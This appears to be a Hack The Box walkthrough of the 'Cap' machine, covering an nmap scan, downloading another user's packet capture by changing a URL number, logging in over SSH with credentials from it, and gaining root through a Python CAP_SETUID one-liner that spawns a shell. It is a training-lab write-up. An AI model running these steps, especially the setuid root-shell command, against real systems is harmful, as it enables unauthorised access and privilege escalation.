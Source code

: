 ```yaml
---
title: Test Post
date: 2021-09-11 HH:MM:SS +/-TTTT
categories: [posts, test]
tags: [test posts stuff]



image:
  src: /path/to/image/file
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: image alternative text

---
```


# Cap

## Enumeration

### nmap
Use nmap to find ports and services running on the target machines

```
nmap -T4 -sC -sV -p- -Pn -oN nmap.log 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.086s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 10 Sep 2021 14:41:21 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 10 Sep 2021 14:41:15 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 10 Sep 2021 14:41:15 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=9/10%Time=613B6E39%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2FE5,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Fri,\x2010\x20Sep\x202021\x2014:41:15\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Fri,\x2
SF:010\x20Sep\x202021\x2014:41:15\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x2
SF:0HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20F
SF:ri,\x2010\x20Sep\x202021\x2014:41:21\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 10 10:42:00 2021 -- 1 IP address (1 host up) scanned in 749.07 seconds

```

In the above scan we can see this machine has a webserver, In a browser navigate to http://10.10.10.245
![](/assets/walkthroughs/cap/cap-webserver.png)

After browsing the site you will find a .pcap file under security snapshot in the left navigation panel, http://10.10.10.245/data/1, change the number at the end of the url to 0, and click the download button at the bottom of the page to download the 0.pcap file.
![](/assets/walkthroughs/cap/cap-webserver-2.png)

Use the command wireshark 0.pcap to open the file with wireshark in your terminal.

```
wireshark 0.pcap
```
![](/assets/walkthroughs/cap/cap-wireshark.png)

Now we have a users credentials. In out initial nmap scan it shows ssh service and port, using the credentials we obtained from the PCAP file ssh into the machine.

```
ssh nathan@10.10.10.245
```
Once logged in all we need to do is view the user.txt file so we can get the user flag.

```
nathan@cap:~$ cat user.txt
148e43f926828360d21bfd519fec8a4b
```
submit the user flag to hackthebox, Congratulations.

## root flag

If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

cp $(which python) .
sudo setcap cap_setuid+ep python

python -c 'import os; os.setuid(0); os.system("/bin/sh")'

```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# cat /root/root.txt
60b446cdfc3f1edf0f881dad382f6f97
```
submit the root flag to hackthebox, Congratulations.
